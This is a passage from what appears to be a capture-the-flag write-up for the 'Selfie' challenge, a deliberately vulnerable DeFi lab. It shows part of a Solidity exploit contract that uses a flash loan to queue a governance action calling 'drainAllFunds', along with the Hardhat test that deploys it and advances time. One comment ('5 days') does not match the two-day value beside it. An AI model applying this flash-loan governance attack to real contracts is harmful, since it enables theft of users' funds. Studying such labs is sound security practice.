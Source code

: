``` Solidity
                    abi.encodeWithSignature(
                        "drainAllFunds(address)",
                        tx.origin
                    ),
                    0
        );
        return actionId;
    }

    function _exploit(uint256 amount) public {
        pool.flashLoan(amount);
    }
}
```

## Exploit Contract Call
``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Selfie', function () {
    let deployer, attacker;

    const TOKEN_INITIAL_SUPPLY = ethers.utils.parseEther('2000000'); // 2 million tokens
    const TOKENS_IN_POOL = ethers.utils.parseEther('1500000'); // 1.5 million tokens
    
    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, attacker] = await ethers.getSigners();

        const DamnValuableTokenSnapshotFactory = await ethers.getContractFactory('DamnValuableTokenSnapshot', deployer);
        const SimpleGovernanceFactory = await ethers.getContractFactory('SimpleGovernance', deployer);
        const SelfiePoolFactory = await ethers.getContractFactory('SelfiePool', deployer);

        this.token = await DamnValuableTokenSnapshotFactory.deploy(TOKEN_INITIAL_SUPPLY);
        this.governance = await SimpleGovernanceFactory.deploy(this.token.address);
        this.pool = await SelfiePoolFactory.deploy(
            this.token.address,
            this.governance.address    
        );

        await this.token.transfer(this.pool.address, TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.be.equal(TOKENS_IN_POOL);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfieExploitFactory = await ethers.getContractFactory('SelfieExploit', attacker);
        this.selfieExploit = await SelfieExploitFactory.deploy(
            this.governance.address,
            this.pool.address);
        
        console.log(this.selfieExploit.address);
        await this.selfieExploit.connect(attacker)._exploit(TOKENS_IN_POOL);

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 5 days
        // console.log( await this.selfieExploit.actionId());
```